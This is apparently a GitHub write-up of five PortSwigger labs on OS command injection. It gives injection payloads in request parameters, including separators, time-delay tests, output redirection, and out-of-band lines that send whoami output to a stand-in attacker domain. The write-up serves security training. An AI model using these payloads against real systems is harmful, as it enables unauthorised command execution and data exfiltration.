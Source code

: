 # OS Command Injection
## Summary
- [Lab1: OS command injection, simple case](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab1-os-command-injection-simple-case)
- [Lab2: Detecting blind OS command injection using `time delays`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab2-detecting-blind-os-command-injection-using-time-delays)
- [Lab3: Blind OS command injection with `output redirection`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab3-blind-os-command-injection-with-output-redirection)
- [Lab4: Blind OS command injection with `out-of-band interaction`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab4-blind-os-command-injection-with-out-of-band-interaction)
- [Lab5: Blind OS command injection with `out-of-band data exfiltration`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab5-blind-os-command-injection-with-out-of-band-data-exfiltration)

### Lab1: OS command injection, simple case
- At the first, it is a so simple lab, because it is an `in-bind` command injection vulnerability, and we will receive the response of the command in the application when we test any payload of them.
- In the simple case we will use the `commands separators` or `shell metacharacters` in our payloads.
- Commands separators as: `&, &&, |, ||, ;, \n, $()`
- Many command injection attacks need to use the new line `\n` as URL encoding `%0a`.

```
productId=2+%26+whoami+#&storeId=1
productId=1&storeId=3|whoami
productId=1&storeId=1&&whoami
productId=1&storeId=1%26whoami%26
```
- It is important to make a URL encoding for the commands separators to obfuscate them.
- I think it is best to inject spaces to separate command line arguments and also note to convert any space to a `+` sign.

![Lab1_another_payload2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab1_another_payload2.png)

-----------------------------------------------------------------------
### Lab2: Detecting blind OS command injection using `time delays`
- It is a blind command injection vulnerability, the server doesn't return the response for us when we send our command, and we won't know if it was executed or not.
- So we will use one of the techniques, which is called `trigger a time delay`.
- We will try to delay the response that we will receive to ensure the command is executed on the server by making the server ping on the localhost.
- If we tried to cause the delay in the parameters, we will find the `email` parameter is vulnerable.

```
email=injection%40gmail.com||sleep 10||subject=...
email=injection%40gmail.com||ping -c 10 127.0.0.1||subject=...
email=injection%40gmail.com & ping -c 10 127.0.0.1 #&subject=...
```
- Don't forget to make URL encodeing.

![Lab2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab2.png)

-----------------------------------------------------------------------
### Lab3: Blind OS command injection with `output redirection`
- At first, we will try to confirm that there is an OS command injection vulnerability in any parameter by using time delays, I think it is the best way to detect and prove it.

![lab3_confirm.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_confirm.png)
- I have seen delays in the response time, so I ensured there is a vulnerability in the `email` parameter.
- We will redirect the results of any commands which we want to do in a text file, and we will access this file to retrieve the content.

![lab3_output_redirection.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_output_redirection.png)
- Now, we want to access this file in the `images` writable directory.
- If you map the application, you will notice the images directory holds all images of the application, and there is a parameter called `filename` that calls the images from the `images` directory.

![lab3_access_file.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_access_file.png)

-----------------------------------------------------------------------
### Lab4: Blind OS command injection with `out-of-band interaction`
- In this technique, we will try to make the server interact with any server we can control and monitor in order to make sure that the server has sent the results to our server and executed the injected command which we passed into the web application.
- So we can use `ping` to make any request and interact with the domain of our server, or make `nslookup` for the domain to resolve it to the IP address.
- Then we will monitor whether the requests succeeded or not.

```
parameter=value || ping subdomain.webAttacker.com ||
parameter=value || nslookup subdomain.webAttacker.com ||
```
#### `Note:`
- In `lab4 & lab5`, you will use the `Burp Collaborator client`, but you must have the `Burp Suite professional`.
- But in the real world, you can use any server you can control.

-----------------------------------------------------------------------

### Lab5: Blind OS command injection with `out-of-band data exfiltration`
- In another technique, you can encapsulate your command in the injected command during executing the original command when it connects with our server.
- you will make it by using:
	- Backtick character  **\`encapsulated command\`**.
	- Dollar character **$(encapsulated command)**.

```
parameter=value || ping `whoami`.subdomain.webAttacker.com ||
parameter=value || ping $(whoami).subdomain.webAttacker.com ||
parameter=value || nslookup `whoami`.subdomain.webAttacker.com ||
parameter=value || nslookup $(whoami).subdomain.webAttacker.com ||
``` 

